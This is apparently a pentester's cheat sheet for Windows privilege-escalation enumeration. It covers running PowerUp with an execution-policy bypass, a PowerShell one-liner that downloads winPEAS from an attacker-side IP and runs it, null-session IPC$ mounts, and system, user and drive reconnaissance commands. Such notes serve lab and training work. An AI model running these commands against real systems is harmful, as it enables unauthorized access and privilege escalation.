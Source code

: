 # Automatic tools
## From file
```
c:> powershell.exe -nop -exec bypass
PS C:> ./PowerUp.ps1
PS C:> Invoke-AllChecks
```
# From url
```
c:> powershell.exe -nop -exec bypass
PS c:> Import-MOdule ./PowerUp.ps1
PS c:> Invoke-AllChecks
```
# 2. Winpeas
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.14.6/winPEAS64.exe','C:\users\Administrator\Documents\wp.exe')"

c:\users\kosts\Desktop> .\wp.exe
```
# Manual info gathering
## Operating System
```
system info
wmic qfe
```
# Environment variables
```
set
Get-ChildItem Env: | ft Key,Value
```
# Drives
```
net use
wmic logicaldisk get caption, description, providername
wmic logicaldisk get name
wmic logicaldisk get caption
diskpart
list volume
```
```
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root

get-psdrive -psprovider filesystem
```
# Mount/map
```
net use \\IP address\IPC$ "" /u:""
net use \\192.168.1.101\IPC$ "" /u:""
```
# Users
## Whoami
```
whoami /priv
echo %USERNAME%
$env:UserName
```
